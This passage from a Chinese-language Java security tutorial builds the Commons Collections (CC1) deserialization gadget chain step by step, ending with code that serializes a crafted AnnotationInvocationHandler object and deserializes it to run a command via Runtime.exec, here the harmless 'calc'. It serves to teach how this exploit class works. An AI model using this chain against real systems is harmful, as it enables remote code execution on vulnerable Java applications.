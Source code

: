 
```java
Transformer[] transformers= new Transformer[]{   
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})  
};  
Transformer chainedTransformer = new ChainedTransformer(transformers);
```

至此，第一个问题就解决了

### 解决传入的对象不为为Runtime的对象

通过寻找存在这样的一个类

![19](/img/JavaSecurity/6c5825d4165e095a4571b663a3029288_MD5.png)


他的transform方法中会给你返回构造函数中接收的参数，这个正是我们需要的，现在我们的exp变成了这样

```java
Transformer[] transformers= new Transformer[]{  
        new ConstantTransformer(Runtime.class),  
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})  
};  
Transformer chainedTransformer = new ChainedTransformer(transformers);

HashMap<Object,Object> map = new HashMap<>();  
map.put("kkk","aaa");  
Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
Constructor annotationInvocationHdConstructor =  c.getDeclaredConstructor(new Class[]{Class.class,Map.class});  //获取类的构造方法  
annotationInvocationHdConstructor.setAccessible(true); //保证可以访问  
Object o = annotationInvocationHdConstructor.newInstance(Override.class, transformedMap);  
serialize(o);  
unserialize("ser.bin");

```
